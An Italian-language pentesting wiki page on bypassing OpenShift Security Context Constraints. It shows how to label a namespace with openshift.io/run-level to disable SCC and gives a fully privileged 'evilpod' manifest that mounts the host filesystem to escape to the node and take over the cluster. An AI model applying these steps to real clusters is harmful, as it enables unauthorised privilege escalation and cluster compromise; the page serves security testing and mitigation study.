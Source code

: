 # Openshift - Bypass SCC

**L'autore originale di questa pagina è** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Namespace Privilegiati

Per impostazione predefinita, SCC non si applica ai seguenti progetti:

* **default**
* **kube-system**
* **kube-public**
* **openshift-node**
* **openshift-infra**
* **openshift**

Se si distribuiscono pod all'interno di uno di questi namespace, nessun SCC verrà applicato, consentendo la distribuzione di pod privilegiati o il mount del file system dell'host.

## Etichetta del Namespace

Esiste un modo per disabilitare l'applicazione di SCC sul tuo pod secondo la documentazione di RedHat. Avrai bisogno di almeno uno dei seguenti permessi:

* Creare un Namespace e creare un Pod in questo Namespace
* Modificare un Namespace e creare un Pod in questo Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Il label specifico `openshift.io/run-level` consente agli utenti di aggirare gli SCC per le applicazioni. Secondo la documentazione di RedHat, quando questo label viene utilizzato, nessun SCC viene applicato a tutti i pod all'interno di quel namespace, rimuovendo efficacemente qualsiasi restrizione.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Aggiungi Label

Per aggiungere il label nel tuo namespace:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Per creare uno spazio dei nomi con l'etichetta tramite un file YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Ora, tutti i nuovi pod creati nello spazio dei nomi non dovrebbero avere alcun SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

In assenza di SCC, non ci sono restrizioni sulla definizione del tuo pod. Ciò significa che un pod maligno può essere facilmente creato per sfuggire al sistema host.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Ora è diventato più facile scalare i privilegi per accedere al sistema host e successivamente prendere il controllo dell'intero cluster, ottenendo i privilegi 'cluster-admin'. Cerca la parte di **Post Esploitation del Nodo** nella seguente pagina:

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### Etichette personalizzate

Inoltre, in base alla configurazione del target, potrebbero essere utilizzate alcune etichette personalizzate / annotazioni nello stesso modo del precedente scenario di attacco. Anche se non è stato progettato per questo, le etichette potrebbero essere utilizzate per concedere permessi, limitare o meno una risorsa specifica.

Prova a cercare etichette personalizzate se riesci a leggere alcune risorse. Ecco un elenco di risorse interessanti:

* Pod
* Deployment
* Namespace
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Elenco di tutti i namespace privilegiati
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Exploit avanzato

In OpenShift, come dimostrato in precedenza, avere il permesso di distribuire un pod in un namespace con l'etichetta `openshift.io/run-level` può portare a un takeover diretto del cluster. Dal punto di vista delle impostazioni del cluster, questa funzionalità **non può essere disabilitata**, poiché è intrinseca al design di OpenShift.

Tuttavia, misure di mitigazione come **Open Policy Agent GateKeeper** possono impedire agli utenti di impostare questa etichetta.

Per aggirare le regole di GateKeeper e impostare questa etichetta per eseguire un takeover del cluster, **gli attaccanti dovrebbero identificare metodi alternativi.**

## Riferimenti

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
